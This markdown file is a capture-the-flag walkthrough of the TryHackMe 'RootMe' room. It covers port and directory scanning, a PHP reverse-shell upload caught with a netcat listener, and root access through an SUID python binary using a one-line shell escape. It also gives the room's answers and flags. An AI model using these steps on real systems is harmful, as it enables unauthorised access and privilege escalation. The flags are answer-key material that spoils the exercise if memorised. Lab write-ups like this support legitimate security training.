<h1 align="center">:fire: TryHackMe Rootme room :fire: </h1>

 

TryHackMe [Room link](https://tryhackme.com/room/rrootme) 

## Task 2 Reconnaissance 
### Q: Scan the machine, how many ports are open?

    nmap -sV -sC -F 10.10.242.162

 

#### A: `2`

### Q: What version of Apache is running?

## See Task 2 first image.

#### A: `2.4.29`

### Q: What service is running on port 22?

## See Task 2 first image.

#### A: `ssh`

### Q: What is the hidden directory?

    sudo dirsearch --full-url -u http://10.10.242.162/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

 

#### A: `/panel/`

## Task 3 Getting a shell 
### Q: user.txt

    ip a

 

Php [Reverse Shell Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 

 

 

 

 

Most Common [Extension List](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/extensions-most-common.fuzz.txt) 

 

 

 

    nc -lvnp 1234

 

    cd var/www/
    cat user.txt
 
 

#### A: `THM{y0u_g0t_a_sh3ll}`

## Task 4 Privilege escalation 
### Q: Search for files with SUID permission, which file is weird?

    python -c 'import pty; pty.spawn("/bin/bash")'

 

    find / -perm -u=s -type f 2>/dev/null

 

#### A: `/usr/bin/python`

[GTFOBins](https://gtfobins.github.io) 

### Q: root.txt

    python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

 

    cd root
    cat root.txt

 

#### A: `THM{pr1v1l3g3_3sc4l4t10n}`

<h1 align="center">:fire: Finished :fire: </h1>
